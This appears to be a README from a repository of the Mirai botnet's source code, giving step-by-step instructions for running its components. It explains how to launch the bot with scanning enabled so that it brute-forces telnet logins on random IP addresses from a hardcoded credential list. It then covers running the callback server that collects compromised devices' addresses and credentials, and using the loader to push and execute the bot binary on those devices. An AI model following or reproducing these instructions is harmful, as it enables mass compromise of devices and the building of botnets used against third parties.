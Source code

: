 # Scanner and Loader Instructions

### Running the bot with scanning enabled
run the bot with the last argument set as `1`
  * arguments: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>`
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 1`
  * you can also edit [mirai/demo-bot.sh](mirai/demo-bot.sh) to enable the flag for you

using the debug, telnet version, the bot will generate random ip addresses and check if a telnet daemon is running on port 23. it will then use its hardcoded list of logins to try to gain access to the device. 
  * the list of logins is in `scanner_init()` in [mirai/bot/scanner.c](mirai/bot/scanner.c) (use the `enc` tool to convert strings into the required format if you want to add new logins)
  * the range of ip addresses it generates can be set here: `get_random_ip()` in [mirai/bot/scanner.c](mirai/bot/scanner.c)

### Running the callback server
if successful, the bot will then report the vulnerable ip address, along with its login credentials to the callback server. 
  * a simple callback server is found here: [mirai/tools/scanListen.go](mirai/tools/scanListen.go), it is built as `scanListen`
  * run it as: `sudo ./debug/scanListen`
  * it listens on port `48102`

### Running the single loader
the single loader takes a list of input ip addresses, login credentials, and a binary to transmit (usually the bot itself). it then logs into each device on the list and uses telnet to transmit the binary. finally, it then launches the binary with the specified arguments. 
  * it is found here: [mirai/tools/single_load.c](mirai/tools/single_load.c) and is built as `single_load`
  * run it as: `./debug/single_load <bind ip> <input file> <path to file_to_load> <argument> <threads> <connections> (debug mode)`
  * e.g. `./debug/single_load 10.0.0.1 ./debug/input.txt ./debug/mirai.dbg "10.0.0.1 10.0.0.2 10.0.0.1 0" 1 1 1` (having the last argument, of any value, means that it runs in debug mode)
